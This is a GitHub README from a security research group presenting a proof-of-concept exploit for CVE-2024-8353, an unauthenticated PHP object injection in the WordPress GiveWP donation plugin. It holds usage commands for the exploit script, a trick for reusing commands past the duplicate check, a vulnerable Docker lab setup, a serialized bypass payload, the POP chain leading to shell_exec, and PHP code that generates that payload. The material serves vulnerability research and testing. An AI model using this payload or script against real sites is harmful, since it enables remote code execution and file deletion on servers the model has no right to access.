







This post is a research article published by [EQSTLab](https://github.com/EQSTLab).

# Introduction
Further Analysis CVE-2024-5932 [EQST Insight R&T(PDF file)](https://www.skshieldus.com/download/files/download.do?o_fname=Research%20Technique_PHP%20Object%20Injection%20Vulnerability%20in%20WordPress%20GiveWP%20(CVE-2024-5932).pdf&r_fname=20240927174114070.pdf).


https://github.com/user-attachments/assets/085c2f81-2894-4bb7-a3f5-62406dcb1021


# CVE-2024-8353
★ CVE-2024-8353 Arbitrary File deletion and RCE PoC ★


## Description
CVE-2024-8353 : GiveWP PHP Object Injection vulnerability


description: The givewp – donation plugin and fundraising platform plugin for wordpress is vulnerable to php object injection in all versions up to, and including, 3.16.1 via deserialization of untrusted input via several parameters like give_title and card_address. This makes it possible for unauthenticated attackers to inject a php object. The additional presence of a pop chain allows attackers to delete arbitrary files and achieve remote code execution. This is essentially the same vulnerability as cve-2024-5932, however, it was discovered the the presence of stripslashes_deep on user_info allows the is_serialized check to be bypassed. This issue was mostly patched in 3.16.1, but further hardening was added in 3.16.2.

## How to use


⚠️When using PoC, you can only use the same command once because “give_title” is stored in the DB and checked for duplicates. In this case, you can use some Linux tricks, especially quotes. For example, if you use “echo”, you can reuse it by typing like “e‘’cho”.


### Git clone
```
git clone https://github.com/EQSTLab/CVE-2024-8353.git
cd CVE-2024-8353
```
### Install packages 
```sh
pip install -r requirements.txt
```
### Command
```sh
# Remote code execution
python CVE-2024-8353.py -u <URL_TO_EXPLOIT> -c <COMMAND_TO_EXECUTE>
```

### Example 
```sh
python CVE-2024-8353.py -u http://example.com/2024/08/24/donation2/ -c "touch /tmp/test"
```

### Output
**CVE-2024-8353.py**



### Result


## Vulnerable Environment
### 1. docker-compose.yml
```sh
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060
  wordpress:
    image: wordpress:6.3.2
    ports:
      - 80:80
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

### 2. Then download vulnerable GiveWP plugin:
https://downloads.wordpress.org/plugin/give.3.16.0.zip

### 3. Unzip the GiveWP plugin zip file and copy the entire file to the “/var/www/html/wp-content/plugins” directory.
```sh
docker cp give docker-wordpress-1:/var/www/html/wp-content/plugins
```

### 4. Activate the GiveWP plugin


### 5. Add new post with GiveWP plugin and copy the post link


### 6. Check the vulnerable link



## Debugging thru PHPSTORM
You can debug your GiveWP using PHPSTORM.

### 1. Download the xdebug in your wordpress(Docker):
```sh
pecl install xdebug
```

### 2. And then setup wordpress's php.ini file like(Docker):
```sh
[DEBUG]
zend_extension=/usr/local/lib/php/extensions/no-debug-non-zts-20200930/xdebug.so
xdebug.mode=debug
xdebug.start_with_request=trigger
xdebug.remote_enable=on
xdebug.remote_handler=dbgp
xdebug.client_host={your_PHPSTORM_address}
xdebug.client_port={your_PHPSTORM_debugging_port}
xdebug.idekey=PHPSTORM
xdebug.profiler_enable_trigger=1
xdebug.trace_enable_trigger=1
```
..And then you can debug your wordpress.

### 3. Setup PHPSTORM like(Local):



### 4. PHPSTORM example (e.g. TCPDF arbitrary file deletion)



# Analysis
## Vulnerable point (give/includes/process-donation.php)
Essentially, the sequence is the same as in CVE-2024-5932, with the difference being that the “is_serialized” logic is also added to the “give_title” parameter. The method determines that if there is no :(colon) sign at index 1, the data is not serialized.


After the “is_serialized” method, the “stripslashes_deep” function strips the backslash. So, the leading backslash (\) is removed and the serialized data is passed.


## Bypass payload
```
\O:19:"Stripe\\\\StripeObject":1:{s:10:"\0*\0_values";a:1:{s:3:"foo";O:62:"Give\\\\PaymentGateways\\\\DataTransferObjects\\\\GiveInsertPaymentData":1:{s:8:"userInfo";a:1:{s:7:"address";O:4:"Give":1:{s:12:"\0*\0container";O:33:"Give\\\\Vendors\\\\Faker\\\\ValidGenerator":3:{s:12:"\0*\0validator";s:10:"shell_exec";s:12:"\0*\0generator";O:34:"Give\\\\Onboarding\\\\SettingsRepository":1:{s:11:"\0*\0settings";a:1:{s:8:"address1";s:15:"touch+/tmp/test";}}s:13:"\0*\0maxRetries";i:10;}}}}}}
```


##  POP chaining for RCE
Stripe\StripeObject->__toString()

Stripe\StripeObject->toArray()

Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->toArray()

Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->getLegacyBillingAddress()

Give->__get('address1')

\Give\Vendors\Faker\ValidGenerator->get('address1')

\Give\Vendors\Faker\ValidGenerator->__call('get', 'address1')

Give\Onboarding\SettingsRepository->get('address1')  (Return command string)

call_user_func('shell_exec', 'command')


PoC.php
```sh
<?php
namespace Stripe{
	class StripeObject
	{
		protected $_values;
		public function __construct(){
			$this->_values['foo'] = new \Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData();
		}
	}
}

namespace Give\PaymentGateways\DataTransferObjects{
	class GiveInsertPaymentData{
    public $userInfo;
		public function __construct()
    {
        $this->userInfo['address'] = new \Give();
    } 
	}
}	

namespace{
	class Give{
		protected $container;
		public function __construct()
		{
			$this->container = new \Give\Vendors\Faker\ValidGenerator();
		}
	}
}

namespace Give\Vendors\Faker{
	class ValidGenerator{
		protected $validator;
		protected $generator;
		public function __construct()
		{
			$this->validator = "shell_exec";
			$this->generator = new \Give\Onboarding\SettingsRepository();
		}
	}
}

namespace Give\Onboarding{
	class SettingsRepository{
		protected $settings;
		public function __construct()
		{
			$this -> settings['address1'] = 'touch /tmp/EQSTtest';
		}
	}
}

namespace{
	$a = new Stripe\StripeObject();
	echo serialize($a);
}
```


# Attack Scenario
## RCE thru POP Chain
POP Chain allows remote command execution.



# Disclaimer
This repository is not intended to be Object injection exploit to CVE-2024-8353. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.


# EQST Insight
We publish CVE and malware analysis once a month. If you're interested, please follow the links below to check out our publications.
https://www.skshieldus.com/eng/business/insight.do
